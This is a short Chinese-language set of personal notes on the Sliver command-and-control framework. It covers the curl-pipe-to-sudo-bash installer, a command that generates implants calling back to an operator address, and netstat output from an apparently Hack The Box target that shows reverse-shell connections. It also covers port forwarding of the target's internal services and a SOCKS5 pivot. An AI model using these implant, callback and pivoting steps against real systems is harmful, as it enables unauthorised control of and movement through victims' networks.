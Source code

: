 ```yaml
---
tags:
  - 渗透/武器库
---
```



最近听说了个[Sliver C2](https://github.com/BishopFox/sliver)好像是对标CS的？


## Install

安装很简单： 
> `curl https://sliver.sh/install|sudo bash` and then run `sliver`

- memo：这种方式安装即为[Multiplayer Mode](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode)

		The easiest way to setup a server for multiplayer is to use the Linux install script which will configure the server as a systemd service.


## [Implants: Beacon vs. Session](https://github.com/BishopFox/sliver/wiki/Getting-Started#implants-beacon-vs-session)

`sliver > generate [beacon] --mtls <yourIP> --os linux [--save 绝对路径]`

- 默认保存在当前工作目录——即打开sliver时的目录
- 可用 `implants` 命令进行管理（但是其实源文件还是要自己手动删！） 
- 端口转发仅支持会话模式
    - 尝试beacon模式开临时会话——临时会话关掉之后配置的端口转发也失效


## netstat注意点

Sliver的 `netstat` 命令要显示全还挺麻烦的……如果不是之前知道开放了3000、8001等本地端口的话，估计就不会注意到了。对比带选项和不带选项：
```bash
sliver (SMILING_WET-BAR) > netstat -4 -6 -l -n -T -u

 Protocol   Local Address     Foreign Address   State         PID/Program Name 
========== ================= ================= ============= ==================
 udp        127.0.0.1:48897   127.0.0.53:53     ESTABLISHED   0/               
 udp        127.0.0.53:53     0.0.0.0:0                       0/               
 udp        0.0.0.0:68        0.0.0.0:0                       0/               
 tcp        127.0.0.1:3306    0.0.0.0:0         LISTEN        0/               
 tcp        0.0.0.0:80        0.0.0.0:0         LISTEN        1049/nginx       
 tcp        127.0.0.53:53     0.0.0.0:0         LISTEN        0/               
 tcp        0.0.0.0:22        0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:3000    0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:8001    0.0.0.0:0         LISTEN        0/               
 tcp        127.0.0.1:33060   0.0.0.0:0         LISTEN        0/               
 tcp6       127.0.0.1:7474    :::0              LISTEN        0/               
 tcp6       :::22             :::0              LISTEN        0/               
 tcp6       127.0.0.1:7687    :::0              LISTEN        0/


sliver (SMILING_WET-BAR) > netstat 

 Protocol   Local Address         Foreign Address    State         PID/Program Name     
========== ===================== ================== ============= ======================
 tcp        only4you.htb.:48422   10.xx.xx.xx:4444   ESTABLISHED   5111/python3         
 tcp        only4you.htb.:44230   10.xx.xx.xx:4444   CLOSE_WAIT    1438/python3         
 tcp        only4you.htb.:32794   10.xx.xx.xx:4444   CLOSE_WAIT    1250/python3         
 tcp        localhost:3000        localhost:41604    ESTABLISHED   0/                   
 tcp        localhost:3000        localhost:41616    ESTABLISHED   0/                   
 tcp        only4you.htb.:59626   10.xx.xx.xx:4444   CLOSE_WAIT    2215/python3         
 tcp        only4you.htb.:39926   dns.google.:53     SYN_SENT      0/                   
 tcp        localhost:3000        localhost:41624    ESTABLISHED   0/
```

## Port Forwarding

```bash
sliver (SMILING_WET-BAR) > portfwd add -b 10.xx.xx.xx:7474 -r 127.0.0.1:7474

[*] Port forwarding 10.xx.xx.xx:7474 -> 127.0.0.1:7474


sliver (SMILING_WET-BAR) > portfwd 

 ID   Session ID                             Bind Address       Remote Address 
==== ====================================== ================== ================
  1   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:3000   127.0.0.1:3000 
  2   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:8001   127.0.0.1:8001 
  3   bd9e189d-515d-43a8-913d-8bf558991ee8   10.xx.xx.xx:7474   127.0.0.1:7474
```

## socks5 proxy

也可以 `socks start` 开启socks5代理。然后在浏览器配置代理就好了